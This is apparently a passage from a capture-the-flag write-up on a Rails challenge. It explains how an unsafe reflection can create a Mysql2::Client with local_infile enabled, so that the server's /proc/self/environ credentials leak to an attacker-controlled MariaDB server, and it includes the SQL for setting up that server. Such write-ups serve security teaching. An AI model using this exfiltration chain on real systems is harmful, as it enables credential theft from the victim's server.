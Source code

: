 ```ruby
      at = redis.get(u)
      @authenticated = at === p
    end
  end
end
```

We can use the `/proc/self/fd/{num}` trick that I mentioned in [this article](https://www.elttam.com/blog/rails-sqlite-gadget-rce/), so now we need to discover an unsafe reflection to exploit.

In this challenge, the `sqlite3` gem is not installed and is replaced with the `mysql2` gem. However, digging into the `mysql2` gem there is the `Mysql2::Client` class that takes a single hash argument for connecting to a MySQL (or MariaDB) database.

From [the documentation as it shows below](https://github.com/brianmario/mysql2/tree/master?tab=readme-ov-file#connection-options), the `local_infile` options allows the client to load files from the filsystem using the SQL `LOAD DATA LOCAL INFILE`.

```ruby
Mysql2::Client.new(
  :host,
  :username,
  :password,
  :port,
  :database,
  :socket = '/path/to/mysql.sock',
  :flags = REMEMBER_OPTIONS | LONG_PASSWORD | LONG_FLAG | TRANSACTIONS | PROTOCOL_41 | SECURE_CONNECTION | MULTI_STATEMENTS,
  :encoding = 'utf8mb4',
  :read_timeout = seconds,
  :write_timeout = seconds,
  :connect_timeout = seconds,
  :connect_attrs = {:program_name => $PROGRAM_NAME, ...},
  :reconnect = true/false,
  :local_infile = true/false, 
  :secure_auth = true/false,
  :get_server_public_key = true/false,
  :default_file = '/path/to/my.cfg',
  :default_group = 'my.cfg section',
  :default_auth = 'authentication_windows_client'
  :init_command => sql
  )
```

Using this, you can leak the credentials for the MariaDB instance from `/proc/self/environ` to an attacker controlled database. In this folder, there is a [`docker-compose.yml`](./docker-compose.yml) for creating the attacker controlled DB where the following example SQL configures the account the client would log into and enabling `local_infile`.

```sql
CREATE DATABASE hackerdb;
CREATE USER 'hackeruser'@'%' IDENTIFIED BY 'sUperDupert0PS3cRetP4S5w))D'; 
GRANT ALL PRIVILEGES ON *.* TO 'hackeruser'@'%' WITH GRANT OPTION; 
FLUSH PRIVILEGES;
SET GLOBAL local_infile = 'ON';
use hackerdb;
CREATE TABLE leak_env (env BLOB);
```
